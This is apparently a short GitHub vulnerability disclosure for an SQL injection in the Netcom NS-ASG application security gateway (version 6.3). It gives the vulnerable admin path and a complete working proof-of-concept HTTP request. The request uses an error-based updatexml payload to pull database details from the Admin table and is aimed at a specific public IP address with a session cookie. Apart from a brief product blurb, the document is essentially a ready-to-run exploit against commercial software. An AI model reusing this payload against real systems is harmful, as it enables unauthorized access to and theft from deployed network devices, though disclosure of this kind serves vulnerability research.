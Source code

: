 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ：/admin/config_Anticrack.php


POC：
```
GET /admin/config_Anticrack.php?GroupId=222%20and%201=(updatexml(1,concat(0x5e24,(select%20concat(0x3a,1,0x3a,database(),0x3a)%20from%20Admin%20limit%200,1),0x5e24),1))--a HTTP/1.1
Host: 1.85.53.53
Cookie: PHPSESSID=72e866e42700903cf0b49c4938cbda93
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```
<img width="607" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/9661f1d8-240d-486e-8538-8fdba232fb8a">
